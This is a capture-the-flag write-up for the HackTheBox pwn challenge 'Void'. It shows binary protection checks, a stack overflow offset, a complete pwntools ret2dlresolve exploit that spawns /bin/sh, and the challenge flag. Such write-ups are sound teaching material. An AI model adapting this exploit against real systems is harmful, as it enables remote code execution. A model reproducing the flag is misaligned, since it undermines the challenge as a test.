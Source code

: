 ```yaml
---
name: Void (2023)
event: HackTheBox Cyber Apocalypse - Intergalactic Chase CTF 2023
category: Pwn
description: Writeup for Void (Pwn) - HackTheBox Cyber Apocalypse - Intergalactic Chase CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Void

## Description

> The room goes dark and all you can see is a damaged terminal. Hack into it to restore the power and find your way out.

## Solution

Check file properties and binary protections.

```bash
file void
void: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=a5a29f47fbeeeff863522acff838636b57d1c213, for GNU/Linux 3.2.0, not stripped
```

```bash
checksec --file void
[*] '/home/crystal/Desktop/challenge/void'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

PwnTools script finds offset of 72 for RIP.

[ret2dlresolve](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve/exploitation) exploit works with little modification.

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Find offset to EIP/RIP for buffer overflows
def find_ip(payload):
    # Launch process and send payload
    p = process(exe, level='warn')
    p.sendline(payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    warn('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './void'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Lib-C library, can use pwninit/patchelf to patch binary
libc = ELF("glibc/libc.so.6")

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(100))

# Start program
io = start()

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop = ROP(elf)

rop.raw('A' * offset)
rop.read(0, dlresolve.data_addr)             # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)                 # call .plt and dl-resolve() with the correct, calculated reloc_offset

io.sendline(rop.chain())
io.sendline(dlresolve.payload)                # now the read is called and we pass all the relevant structures in

# Got Shell?
io.interactive()
```

Flag: `HTB{r3s0lv3_th3_d4rkn355}`
